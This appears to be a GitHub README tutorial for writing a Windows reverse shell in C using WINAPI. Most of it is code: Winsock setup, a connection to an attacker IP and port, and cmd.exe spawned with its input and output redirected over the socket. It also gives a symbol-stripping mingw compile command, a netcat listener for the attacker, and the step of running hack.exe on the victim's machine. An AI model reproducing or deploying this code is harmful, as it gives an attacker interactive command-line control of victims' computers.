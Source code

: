 # 02-winapi

A simple windows reverse shell malware in C (using WINAPI).    

The pseudo code of a windows shell is:

- Init socket library via `WSAStartup` call    
- Create socket    
- Connect socket a remote host, port (attacker’s host)    
- start `cmd.exe`    


First of all, we use the Winsock API by including the Winsock 2 header files:    

```cpp
#include <winsock2.h>
```

And by [MSDN documentation](https://learn.microsoft.com/en-us/windows/win32/winsock/creating-a-basic-winsock-application) minimal winsock application is:    

```cpp
#include <windows.h>
#include <winsock2.h>
#include <stdio.h>

int main() {
  return 0;
}
```

Then the `WSAStartup` function initiates use of the Winsock DLL by a process:    

```cpp
// initialize socket library
WSAStartup(MAKEWORD(2, 2), &socketData);
```

then create socket and connect to remote host:    

```cpp
// create socket object
sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

addr.sin_family = AF_INET;
addr.sin_port = htons(attackerPort);
addr.sin_addr.s_addr = inet_addr(attackerIP);

// establish connection to the remote host
WSAConnect(sock, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL);
```

then we fills memory area, and setting windows properties via `STARTUPINFO` structure (`si`):    

```cpp
si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE) sock;
```

Finally, the `CreateProcess` function takes a pointer to a `STARTUPINFO` structure as one of its parameters:    

```cpp
// initiate cmd.exe with redirected streams
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
```

Compile our Windows reverse shell:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lws2_32
```

![img](./img/2024-05-03_08-05.png)    

Prepare netcat listener on the attacker's machine:    

```bash
nc -nlvp 4444
```

![img](./img/2024-05-03_08-07.png)    

Then run it on the victim's machine:     

```powershell
.\hack.exe
```

![img](./img/2024-05-03_08-08.png)    



